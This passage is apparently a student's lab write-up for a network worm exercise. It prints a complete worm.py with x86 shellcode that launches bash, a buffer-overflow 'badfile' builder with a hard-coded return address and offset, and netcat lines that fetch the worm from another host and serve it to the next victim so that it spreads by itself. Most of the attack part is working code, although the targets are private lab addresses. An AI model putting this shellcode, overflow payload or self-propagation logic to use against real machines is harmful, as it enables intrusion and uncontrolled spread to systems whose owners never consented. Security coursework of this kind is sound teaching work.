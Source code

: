 In Task 3, we worked on creating the core of the worm script to enable it to propagate across the network by compromising new machines. The worm's functionality required combining several components, including the badfile payload, the shellcode, and the attack mechanisms that allows it to compromise and spread.

We implemented the Approach 2, using the following steps:

- `Establish a Connection to Target Machines`: The worm connects to each target machine, where it delivers the badfile containing the exploit and shellcode;
- `Execute Commands on Compromised Machines`: Once the worm gains control of a machine, it uses the shellcode to establish a reverse shell, allowing the worm to execute further commands on the compromised machine;
- `Deploy the Worm on New Hosts`: After compromising a machine, the worm automatically copies itself to the new host and begins the infection process again;

The content of new `worm.py` was:

```python
#!/bin/env python3
import sys
import os
import time
import subprocess
from random import randint

shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   " echo '(^_^) Shellcode is running (^_^)';                   "
   " nc -w5 10.151.0.1 8081 > worm.py; pwd;                     " # To infect the next target
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
).encode('latin-1')


# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))

   shellcode_length = len(shellcode)
   content[500-len(shellcode):] = shellcode
   ret = 0xffffd588 + 180
   offset = 0x74

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)

def getNextTarget():
   return '10.151.0.71'

############################################################### 

print("The worm has arrived on this host ^_^", flush=True)

# This is for visualization. It sends an ICMP echo message to 
# a non-existing machine every 2 seconds.
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)
subprocess.Popen(["nc -lnv 8081 < worm.py"], shell=True)
```